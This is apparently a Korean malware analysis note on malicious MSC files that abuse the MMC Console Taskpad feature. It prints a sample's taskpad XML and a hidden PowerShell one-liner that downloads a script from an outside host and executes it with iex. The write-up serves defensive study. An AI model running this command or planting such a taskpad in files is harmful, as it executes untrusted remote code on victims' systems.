



MSC(Microsoft System Center) 파일은 시스템 관리 및 모니터링에 사용되는 XML 형식의 파일입니다. Microsoft Management Console(mmc.exe)를 사용해 열 수 있으며, 다양한 관리 도구의 저장 및 실행에 사용됩니다. 공격자는 해당 파일이 시스템과 관련된 파일에 사용되는 형식임을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다. 


## <mark>1. MSC 파일</mark>

MSC 파일은 일반적으로 시스템 관리 및 모니터링에 사용되는 파일입니다. 공격자는 해당 사실을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다.



파일을 오픈하게 되면, Microsoft Management Console(mmc.exe)에 의해 실행됩니다.


XML 형식을 사용하기 때문에 텍스트 에디터를 사용하여 파일 내부를 확인할 수 있습니다.


## <mark>2. MMC Console Taskpad</mark>

MSC 파일은 MMC Console Taskpad 기능을 사용하여 내부에 명령어를 삽입할 수 있습니다. 공격자는 해당 기능을 사용하여, 사용자가 특정 버튼을 클릭해 악성 스크립트를 실행하도록 유도합니다.

> [!NOTE]   
> 🔗 [MMC Console Taskpad](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/mmc-console-taskpad)



## <mark>3. 악성 MSC 샘플 분석</mark>

### ▪ 파일 내부 확인

MSC 파일은 XML 형식을 사용하기 때문에 텍스트 에디터를 사용해 내부를 확인할 수 있습니다. ConsoleTaskPads 기능이 존재하는지, 존재한다면 어떤 명령어를 사용하고 있는지 확인합니다.



샘플의 경우, ConsoleTaskpads에 Powershell 명령어가 포함되어 있는 것이 확인되었습니다.

```xml
  <ConsoleTaskpads>
    <ConsoleTaskpad ListSize="Medium" IsNodeSpecific="true" ReplacesDefaultView="true" NoResults="true" DescriptionsAsText="true" NodeType="{C96401CE-0E17-11D3-885B-00C04F72C717}" ID="{656F3A6A-1A63-4FC4-9C9B-4B75AF6DF3A3}">
      <String Name="Name" ID="4"/>
      <String Name="Description" Value=""/>
      <String Name="Tooltip" Value=""/>
      <Tasks>
        <Task Type="CommandLine" Command="powershell.exe">
          <String Name="Name" ID="5"/>
          <String Name="Description" ID="11"/>
          <Symbol>
            <Image Name="Small" BinaryRefIndex="6"/>
            <Image Name="Large" BinaryRefIndex="7"/>
          </Symbol>
          <CommandLine Directory="" WindowState="Minimized" Params="-WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)"/>
        </Task>
      </Tasks>
      <BookMark Name="TargetNode" NodeID="1"/>
    </ConsoleTaskpad>
  </ConsoleTaskpads>
```

### ▪ 명령어 분석

Powershell 스크립트 파일로 추정되는 jIML.txt 파일을 다운로드 받아 파일 내부에 있는 코드를 실행하는 명령어가 포함되어 있는 것이 확인되었습니다.

```powershell
powershell.exe -WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)
```

